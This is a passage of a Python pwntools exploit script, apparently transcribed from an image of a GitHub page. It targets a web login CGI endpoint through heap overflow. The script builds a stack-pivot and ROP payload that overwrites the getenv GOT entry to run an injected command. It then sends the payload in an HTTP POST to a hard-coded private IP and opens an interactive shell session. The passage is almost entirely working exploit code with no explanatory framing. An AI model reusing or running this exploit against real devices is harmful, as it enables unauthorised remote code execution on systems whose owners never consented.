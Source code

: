 ```bash
    pivot_payload = flat({
        0x00: p64(0x4087F5), # .alloc -> disable je in .free gadget
        # .text:00000000004087F5 test    rsi, rsi
        # .text:00000000004087F8 jz      short loc_408801
        # .text:00000000004087F8
        # .text:00000000004087FA mov     rdi, [rbx+10h]
        # .text:00000000004087FE call    qword ptr [rbx+8]
        0x08: p64(0x00000000004381d3), # .free -> xchg eax, esp ; je 0x43901d ; add rsp, 0xe8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
        0x10: p64(0x675ec8 - 0x28), # getenv@got - 0x28
        0x18: CMD,
        0x118: ropchain
    })

    hijack_payload =  b'"ddddddddddddddddddddddddddddddddddddddd\u"   '
    hijack_payload += b'e' * 0x5c
    hijack_payload += pivot_payload
    hijack_payload += b'"'
    # hijack_payload += b','
    # print("hijack_payload len {:#x}, raw_len {:#x}".format(len(hijack_payload), raw_len(hijack_payload)))


    # print("message len {:#x}".format(template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)))

    array_payload = generate_array_payload(top_chunk_size - 0x1040 - 0x50 - 0x20, template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)) 

    payload =  array_payload
    payload += overflow_old_top_chunk_payload
    payload += overflow_new_top_chunk_payload
    payload += free_new_top_chunk_payload
    payload += overflow_fastbin_fd_payload
    payload += dummy_alloc_payload
    payload += hijack_payload

    http_body = json_template % get_raw_payload(payload)
    write("exp_data", http_body)

    http_template = b'''
POST /cgi-bin/login.cgi HTTP/1.1\r
Host: %s:%d\r
Content-Type: application/json\r
Content-Length: %d\r
\r
%s
'''.strip()
    # print(http_template)

    http_message = http_template % (host, port, len(http_body), http_body)

    io.send(http_message)

    io.interactive()

if __name__ == "__main__":
    host = b"192.168.64.135"
    port = 8080

```